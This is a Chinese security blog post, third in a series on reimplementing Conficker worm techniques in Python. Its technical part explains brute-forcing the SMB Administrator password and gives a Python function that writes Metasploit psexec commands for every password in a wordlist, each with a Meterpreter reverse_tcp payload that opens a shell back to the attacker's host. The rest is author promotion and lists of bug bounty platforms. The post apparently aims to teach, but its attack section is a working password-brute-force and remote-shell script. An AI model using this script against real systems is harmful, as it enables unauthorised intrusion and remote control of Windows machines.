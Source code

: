 # 原创
：  【Python脚本进阶】2.4、conficker蠕虫（下）:暴破口令，远程执行进程

# 【Python脚本进阶】2.4、conficker蠕虫（下）:暴破口令，远程执行进程

 <img alt="" src="https://img-blog.csdnimg.cn/2e86bda3ff034c71920f2f40732c3929.gif"/>

## 前言：

> 
<h3><img alt="" height="24" src="https://img-blog.csdnimg.cn/c2dfbe518f7d43a2978e4e6f1bfd5ea1.gif" width="24"/>介绍： </h3>
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>博主：网络安全领域狂热爱好者（承诺在CSDN永久无偿分享文章）。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>殊荣：CSDN网络安全领域优质创作者，2022年双十一业务安全保卫战-某厂第一名，某厂特邀数字业务安全研究员，edusrc高白帽，vulfocus、攻防世界等平台排名100+、高校漏洞证书、cnvd原创漏洞证书等。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>擅长：对于技术、工具、漏洞原理、黑产打击的研究。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>C站缘：C站的前辈，引领我度过了一个又一个技术的瓶颈期、迷茫期。
<hr/>
<h3><img alt="" height="24" src="https://img-blog.csdnimg.cn/9f7cfdd7c4294c9e9bff7ef35f552f0c.gif" width="24"/>导读：</h3>
<img alt="" height="23" src="https://img-blog.csdnimg.cn/b1b5426baac44b97b68428245cc35d77.png" width="23"/>面向读者：对于网络安全方面的学者。 
<img alt="" height="23" src="https://img-blog.csdnimg.cn/19ea593260b84ec8b836a336326fa0cc.png" width="23"/>本文知识点（读者自测）： 
（1）暴破口令，远程执行进程（√）


### <img alt="" height="24" src="https://img-blog.csdnimg.cn/9f7cfdd7c4294c9e9bff7ef35f552f0c.gif" width="24"/>导读：

> 
<h2> <img alt="" height="23" src="https://img-blog.csdnimg.cn/19e90c25b42d4b368c3c94da4b04afb0.png" width="23"/>让读者如虎添翼</h2>
<table border="1" cellpadding="1" cellspacing="1"><tbody>|conficker蠕虫博文|目标|状态
|[【Python脚本进阶】conficker蠕虫（上）:Metasploit攻击Windows SMB服务](https://blog.csdn.net/qq_53079406/article/details/126077115)|Metasploit攻击|已发布
|[【Python脚本进阶】conficker蠕虫（中）:Python脚本与Metasploit交互](https://blog.csdn.net/qq_53079406/article/details/126081487)|Python脚本与Metasploit交互|已发布
|[【Python脚本进阶】conficker蠕虫（下）:暴破口令，远程执行进程](https://blog.csdn.net/qq_53079406/article/details/126084405)|暴破口令，远程执行进程|已发布
|[【Python脚本进阶】conficker蠕虫（终）](https://blog.csdn.net/qq_53079406/article/details/126084602)|完整代码|已发布
</tbody></table>



---


**目录**

[一、简介](#%E4%B8%80%E3%80%81%E7%AE%80%E4%BB%8B)

[分析：](#%E5%88%86%E6%9E%90%EF%BC%9A)

[二、实现](#%E5%AE%9E%E7%8E%B0)

[利用：](#%E5%88%86%E6%9E%90%EF%BC%9A)

---


## 一、简介

> 
<h3>分析：</h3>
尽管能成功地在被黑的主机上运行ms08 _ 067 netapi漏洞利用代码， 但防卫者也能很方便地通过安装最新的安全补丁来阻止漏洞利用代码被执行。
<hr/>
因此， 脚本还需要另一种也在Conficker蠕虫中使用过的攻击方法。它需要用暴力攻击的方式破解SMB用户名／密码， 以此获取权限在目标主机上远程执行 一个进程(psexec)。


---


---


## 二、实现

> 
<h3>利用：</h3>
输入smbBurte函数的参数有： Metasploit脚本文件、目标主机、包含密码列表的另一个文件， 以及本机地址和端口
<hr/>
将用户名设为Windows的默认管理员administrator, 然后打开密码列表文件。对文件中的每个密码， 函数都会生成一个用来远程执行(psexec)进程的Metasploit脚本。如果某个用户名／密码对正确，远程执行进程的代码就会运行回连一个命令行shell到攻击者本机地址及对应的端口。
<pre><code>def smbBrute(configFile, tgtHost, passwdFile, lhost, lport):
    username = 'Administrator'
    pF = open( passwdFile, 'r' )
    for password in pF.readlines():
        password = password.strip('\n').strip('\r')
        configFile.write('use exploit/windows/smb/psexec\n')
        configFile.write('set SMBUser ' + str(username) + '\n')
        configFile.write('set SMBPass ' + str(password) + '\n')
        configFile.write('set RHOST ' + str(tgtHost) + '\n')
        configFile.write('set PAYLOAD ' + 'windows/meterpreter/reverse_tcp\n')
        configFile.write('set LPORT ' + str(lport) + '\n')
        configFile.write('set LHOST ' + lhost + '\n')
        configFile.write('exploit -j -z\n')</code></pre>


---


---


> 
<h2><img alt="" height="28" src="https://img-blog.csdnimg.cn/0797a1b4a28e49479db240e038a7969d.png" width="28"/>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL
|漏洞盒子|[漏洞盒子 | 互联网安全测试众测平台](https://www.vulbox.com/)
|火线安全平台|[火线安全平台](https://www.huoxian.cn/)
|漏洞银行|[BUGBANK 官方网站 | 领先的网络安全漏洞发现品牌 | 开放安全的提出者与倡导者 | 创新的漏洞发现平台](https://www.bugbank.cn/)
|360漏洞众包响应平台|[360漏洞云漏洞众包响应平台](https://src.360.net/)
|补天平台（奇安信）|[补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC](https://www.butian.net/)
|春秋云测|[首页](https://zhongce.ichunqiu.com/)
|雷神众测（可信众测，安恒）|[雷神众测 - BountyTeam](https://www.bountyteam.com/)
|云众可信（启明星辰）|[云众可信 - 互联网安全服务引领者](https://www.cloudcrowd.com.cn/)
|ALLSEC|[ALLSEC](https://i.allsec.cn/#/)
|360众测|[360众测平台](https://zhongce.360.cn/)
|看雪众测（物联网）|[https://ce.kanxue.com/](https://ce.kanxue.com/)
|CNVD众测平台|[网络安全众测平台](https://zc.cnvd.org.cn/)
|工控互联网安全测试平台|[CNCERT工业互联网安全测试平台](https://test.ics-cert.org.cn/)
|慢雾（区块链）|[Submit Bug Bounty - SlowMist Zone - Blockchain Ecosystem Security Zone](https://slowmist.io/bug-bounty.html)
|平安汇聚|[http://isrc.pingan.com/homePage/index](http://isrc.pingan.com/homePage/index)
</tbody></table>


<table border="1" cellpadding="1" cellspacing="1"><tbody>|互联网大厂|URL
|阿里|https://asrc.alibaba.com/#/
|腾讯|https://security.tencent.com/
|百度|https://bsrc.baidu.com/v2/#/home
|美团|https://security.meituan.com/#/home
|360|https://security.360.cn/
|网易|https://aq.163.com/
|字节跳动|https://security.bytedance.com/
|京东|https://security.jd.com/#/
|新浪|http://sec.sina.com.cn/
|微博|https://wsrc.weibo.com/
|搜狗|http://sec.sogou.com/
|金山办公|https://security.wps.cn/
|有赞|https://src.youzan.com/
</tbody></table>

<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/18b63058b35848b19967730eb49fcb45.png" width="23"/>Third Year </h3>
学习最新的知识，建全自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/7ccb45a55d5244edad5a9a1fabc55f08.png" width="23"/>目标：参与护网（每一个男孩子心中的梦想） 
时间：一般5月面试，6/7月开始（持续2-3周）
分类：国家级护网、省级护网、市级护网、重大节日护网（如：建党、冬奥等）


### <img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year 

---

